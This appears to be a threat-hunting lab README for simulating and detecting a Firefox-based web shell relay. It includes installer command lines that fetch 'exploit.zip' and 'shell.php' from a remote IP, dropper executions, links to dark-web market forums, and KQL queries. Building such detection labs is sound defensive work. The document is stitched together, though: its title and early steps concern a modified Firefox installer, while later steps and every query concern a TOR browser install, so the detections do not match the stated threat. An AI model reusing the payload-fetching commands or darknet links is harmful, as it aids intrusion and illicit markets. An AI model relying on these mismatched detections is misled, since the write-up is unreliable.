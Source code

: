 # Threat Event (Firefox Used as a Web Shell Relay)
**Detection of Unauthorized Firefox Installation and Malicious Activity on Workstation: snet**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Downloaded a modified Firefox installer disguised as a legitimate file: ```Firefox Installer.exe``` saved under ```C:\Users\employee0\Downloads\```.
2. Executed the installer silently through ```setup-stub.exe``` with custom arguments: ```setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://172.203.80.23/exploit.zip```
3. Executed again using a different payload hosted on a remote web server: ```setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://172.203.80.23/admin/shell.php```
4. Multiple dropper executions occurred via ```download.exe``` in quick succession, indicating staged infection:                                    ```"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nskC4FD.tmp\config.ini
"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nso90D.tmp\config.ini
"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nss9E77.tmp\config.ini```

5. Opens the TOR browser from the folder on the desktop
6. Connect to TOR and browse a few sites. For example:
   - **WARNING: The links to onion sites change a lot and these have changed. However if you connect to Tor and browse around normal sites a bit, the necessary logs should still be created:**
   - Current Dread Forum: ```dreadytofatroptsdj6io7l3xptbet6onoyno2yv7jicoxknyazubrad.onion```
   - Dark Markets Forum: ```dreadytofatroptsdj6io7l3xptbet6onoyno2yv7jicoxknyazubrad.onion/d/DarkNetMarkets```
   - Current Elysium Market: ```elysiumutkwscnmdohj23gkcyp3ebrf4iio3sngc5tvcgyfp4nqqmwad.top/login```

7. Create a folder on your desktop called ```tor-shopping-list.txt``` and put a few fake (illicit) items in there
8. Delete the file.

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used for detecting TOR download and installation, as well as the shopping list creation and deletion. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the silent installation of TOR as well as the TOR browser and service launching.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect TOR network activity, specifically tor.exe and firefox.exe making connections over ports to be used by TOR (9001, 9030, 9040, 9050, 9051, 9150).|

---

## Related Queries:
```kql
// Installer name == tor-browser-windows-x86_64-portable-(version).exe
// Detect the installer being downloaded
DeviceFileEvents
| where FileName startswith "tor"

// TOR Browser being silently installed
// Take note of two spaces before the /S (I don't know why)
DeviceProcessEvents
| where ProcessCommandLine contains "tor-browser-windows-x86_64-portable-14.0.1.exe  /S"
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine

// TOR Browser or service was successfully installed and is present on the disk
DeviceFileEvents
| where FileName has_any ("tor.exe", "firefox.exe")
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine

// TOR Browser or service was launched
DeviceProcessEvents
| where ProcessCommandLine has_any("tor.exe","firefox.exe")
| project  Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// TOR Browser or service is being used and is actively creating network connections
DeviceNetworkEvents
| where InitiatingProcessFileName in~ ("tor.exe", "firefox.exe")
| where RemotePort in (9001, 9030, 9040, 9050, 9051, 9150)
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc

// User shopping list was created and, changed, or deleted
DeviceFileEvents
| where FileName contains "shopping-list.txt"
```

---

## Created By:
- **Author Name**: Antonio Francisco
- **Author Contact**: https://www.linkedin.com/in/antoniofrancisco-085948210/
- **Date**: October 06, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `October 06, 2025`  | `Antonio Francisco`   
